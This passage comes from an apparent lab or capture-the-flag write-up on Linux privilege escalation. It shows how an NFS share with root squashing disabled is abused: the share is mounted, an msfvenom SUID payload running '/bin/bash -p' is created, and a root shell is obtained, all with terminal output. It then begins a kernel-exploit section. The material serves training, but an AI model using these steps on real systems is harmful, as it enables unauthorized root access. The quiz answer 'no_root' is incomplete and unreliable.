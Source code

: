     Note that the `/tmp` share has root squashing disabled.

- Using Kali's root user, create a mount point on your Kali box and mount the `/tmp` share (update the IP accordingly):

    ```bash
    ┌──(root💀kali)-[/home/kali]
    └─# mkdir /tmp/nfs
                                                                                                                                                                                
    ┌──(root💀kali)-[/home/kali]
    └─# mount -o rw,vers=2 10.10.225.64:/tmp /tmp/nfs
    ```

- Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

    ```bash
    ┌──(root💀kali)-[/home/kali]
    └─# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 48 bytes
    Final size of elf file: 132 bytes
    Saved as: /tmp/nfs/shell.elf
    ```

- Still using Kali's root user, make the file executable and set the SUID permission:

    ```bash
    ┌──(root💀kali)-[/home/kali]
    └─# chmod +xs /tmp/nfs/shell.elf
    ```

- Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:'

    ```bash
    user@debian:~$ /tmp/shell.elf
    bash-4.1# whoami
    root
    ```

- What is the name of the option that disables root squashing?
> no_root

## Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

- Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

    ```bash
    user@debian:~$ perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
